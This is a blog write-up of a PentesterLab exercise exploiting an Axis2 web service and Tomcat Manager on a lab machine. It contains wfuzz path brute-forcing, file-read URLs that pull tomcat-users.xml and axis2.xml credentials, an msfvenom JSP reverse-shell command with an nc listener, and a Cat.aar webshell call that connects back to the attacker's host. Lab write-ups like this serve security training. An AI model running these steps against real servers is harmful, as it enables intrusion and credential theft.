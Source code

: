 ```yaml
---
layout: post
title: "Pentesterlab--Axis2 Web service and Tomcat Manager
"
date: 2016-04-05 15:46:46 -0400
comments: true
categories: [pentesterlab, Tomcat, Apache, Axis2]
---
```



*When you engage in actual fighting, if victory is long in coming, then men's weapons will grow dull and their ardor will be damped. If you lay siege to a town, you will exhaust your strength.* ----- The Art of War

This course details the exploitation of an issue in an Axis2 Web service and how using this issue it is possible to retrieve arbitrary files. Then using this, we will see how an attacker can retrieve Tomcat users' file to access the Tomcat Manager and gain commands execution on the server. ---Pentesterlab

Difficluty: 3/5
<!--more-->

###Forces:

* Nmap
* wfuzz
* nc
* msfvenom


###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ---Nmap
* Burte force hidden path of the server. ----wfuzz
* generate webshell. ---msfvenom
* backdoor. ---nc
* webshell. ---Car.arr



###Waging War

####Weaknesses and Strengths

Used Nmap to idenfity opened ports. TCP port 80 is opened and Apache service is running on it.

`nmap -sV -v -A 192.168.79.168`

{% img  /images/blog/pentesterlab/axis2/Selection_001.png   [title manually exploit [alt text]] %}

Use wfuzz to burte force hidden path of the server

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.168/FUZZ 2>/dev/null
```

{% img  /images/blog/pentesterlab/axis2/Selection_002.png   [title manually exploit [alt text]] %}

Now we find that the server host a web service using Axis2.

In order to test is the web server using Tomcat, we can try to visit a non-existing web page and watch the 404 error page.

{% img  /images/blog/pentesterlab/axis2/Selection_003.png   [title manually exploit [alt text]] %}

Now we find the server uses Tomcat and we get the version of the Tomcat. Keep going...


Lets check the path axis2/ , we get the page:

{% img  /images/blog/pentesterlab/axis2/Selection_004.png   [title manually exploit [alt text]] %}


get the list of the available services by visiting the page `http://192.168.79.168/axis2/services/listServices` or click the serices link

{% img  /images/blog/pentesterlab/axis2/Selection_005.png   [title manually exploit [alt text]] %}

The WSDL information can be accessed by clicking the service's name in the listServices page or directly using the following URL: `http://192.168.79.168/axis2/services/ProxyService?wsdl`.

We can see that `get` operation is defined in WSDL

{% img  /images/blog/pentesterlab/axis2/Selection_006.png   [title manually exploit [alt text]] %}


Axis2 provides an easy way to call Web services, you just need to follow the pattern http://[WS_URL]/method?parameters


####Attack

####Easy way

Get Tomcat manager configuration to get login credentials.
In Debian Linux, the tomcat configuration file tomcat-users.xml has default location: /etc/tomcat6/tomcat-users.xml

So we can try:

```
http://192.168.79.168/axis2/services/ProxyService/get?uri=file:///etc/tomcat6/tomcat-users.xml
```

Then we get the Tomcat manager's credentials:

{% img  /images/blog/pentesterlab/axis2/Selection_008.png   [title manually exploit [alt text]] %}


the tomcat manager-gui login password can be found: username: manager password: !mp0ss!bl32gu355

Then login tomcat manager from the URL http://192.168.79.168/manager/html to upload and deploy JSP webshell in WAR file.

####deploy webshell

Generate webshell:

```
$ mkdir webshell
$ cd webshell
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.79.156 LPORT=4444 -f raw > sh4.jsp
$ jar -cvf ../webshell.war *

```


Then uplpad the websehll.war to manager page


in Kali setup nc:

`nc -nlvp 4444`

go to `http://192.168.79.168/webshell/sh4.jsp`

then you will get the shell:

{% img  /images/blog/pentesterlab/axis2/Selection_009.png   [title manually exploit [alt text]] %}


####'Hard' way

In Debian Linux, the axis2 configuration file axis2.xml has default location: `/var/lib/tomcat6/webapps/axis2/WEB-INF/conf/axis2.xml`

so we can visit this page by using,

`http://192.168.79.168/axis2/services/ProxyService/get?uri=file:///var/lib/tomcat6/webapps/axis2/WEB-INF/conf/axis2.xml`


from axis2.xml, we find the credential is admin/axis2

{% img  /images/blog/pentesterlab/axis2/Selection_010.png   [title manually exploit [alt text]] %}

Then login axis2 admin page from the URL `http://192.168.79.168/axis2/axis2-admin/`

{% img  /images/blog/pentesterlab/axis2/Selection_011.png   [title manually exploit [alt text]] %}

{% img  /images/blog/pentesterlab/axis2/Selection_012.png   [title manually exploit [alt text]] %}

then try to upload webshell.war we used in last method.

{% img  /images/blog/pentesterlab/axis2/Selection_013.png   [title manually exploit [alt text]] %}

Looks like it doesn't support the war file format. WTF, okay, try harder.


After google search, I found a webshell for axis2,  called [Cat.arr](https://github.com/tennc/webshell/tree/master/other/cat.aar)

Download it and upload it to the server, it requres host IP and port number:

```
192.168.79.168/axis2/services/Cat/shell?host=192.168.79.156&port=6666
```


{% img  /images/blog/pentesterlab/axis2/Selection_014.png   [title manually exploit [alt text]] %}



Oh.....

{% img  /images/blog/pentesterlab/axis2/gameover.jpeg   [title manually exploit [alt text]] %}
